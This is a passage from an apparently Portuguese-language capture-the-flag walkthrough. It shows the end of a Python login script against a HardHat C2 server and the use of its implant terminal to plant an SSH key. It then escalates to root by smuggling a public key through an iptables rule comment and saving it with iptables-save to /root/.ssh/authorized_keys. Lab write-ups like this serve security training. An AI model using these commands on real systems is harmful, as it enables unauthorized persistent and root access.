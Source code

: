 ```python
  "password": "sth_pentest",
  "role": "TeamLead",
  "username": "sth_pentest"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```

Podemos então executar o script e fazer login no sistema.
```sh
python3 ./hardhatc2_exploit.py
```
![[Pasted image 20250325100245.png]]

Agora no menu vamos em `ImplantInteract` e `Terminal`. Aqui podemos executar comando no sistema então podemos seguir a mesma estratégia de escrever nossa `public key` no arquivo `~/.ssh/authorized_keys`.

Enviei primeiro o comando `id` para ver em qual usuários executa.
![[Pasted image 20250325100910.png]]

Então podemos inserir nossa chave.
```sh
echo "<YOUR_PUBLIC_KEY>" > ~/.ssh/authorized_keys
```

Agora entramos com o usuário ``sergej``
![[Pasted image 20250325101351.png]]
***
# Priv Esc
Agora podemos tentar listar os comando que podemos executar com `sudo`.
```sh
sudo -l
```
![[Pasted image 20250325101724.png]]

Podemos executar 2 comandos como `root`, ``iptables`` e ``iptables-save``. Novamente podemos pesquisar sobre eles para achar formas de escalar privilégio.
![[Pasted image 20250325102156.png]]

>[!info]
>Reserve um tempo para ler o [Post](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/) sobre o assunto.

Aqui podemos comentar um comando como o ``iptables`` e salva-lo em qualquer arquivo. Aqui vou  adicionar nossa `public key` no arquivo `/root/.ssh/authorized_keys`. 
```sh
sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\n<YOUR_PUBLIC_KEY>\n'

sudo /usr/sbin/iptables -S

sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```

Após ter adicionado, podemos fazer ``ssh`` para a conta de ``root`` e pegar a flag de `root`.
![[Pasted image 20250325103629.png]]
**Owned !!!**

***
![[Pasted image 20250325104558.png]]